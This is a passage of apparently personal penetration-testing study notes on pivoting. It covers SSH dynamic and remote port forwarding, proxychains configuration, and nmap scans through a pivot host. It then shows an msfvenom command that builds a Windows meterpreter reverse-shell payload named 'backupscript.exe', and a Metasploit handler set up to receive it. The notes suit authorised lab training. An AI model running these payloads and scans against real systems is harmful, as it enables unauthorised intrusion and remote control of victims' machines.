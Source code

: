 ```shell
netstat -antp | grep 1234
```
#### Confirming Port Forward with Nmap

```shell
nmap -v -sV -p1234 localhost
```
![[Pasted image 20250210091316.png]]

#### Enabling Dynamic Port Forwarding with SSH

```shell
ssh -D 9050 ubuntu@10.129.202.64
```

> -D enables dynamic port forwarding

Using proxychains, we can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host

>[!important]
>To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.

#### Using Nmap with Proxychains

```shell
proxychains nmap -v -sn 172.16.5.1-200
```

>[!note]
>One more important note to remember here is that we can only perform a `full TCP connect scan` over proxychains.

```shell
proxychains msfconsole
```

# Remote/Reverse Port Forwarding with SSH

![[Pasted image 20250210104615.png]]
#### Creating a Windows Payload with msfvenom
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler

```shell
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set lhost 0.0.0.0

msf6 exploit(multi/handler) > set lport 8000

msf6 exploit(multi/handler) > run

```
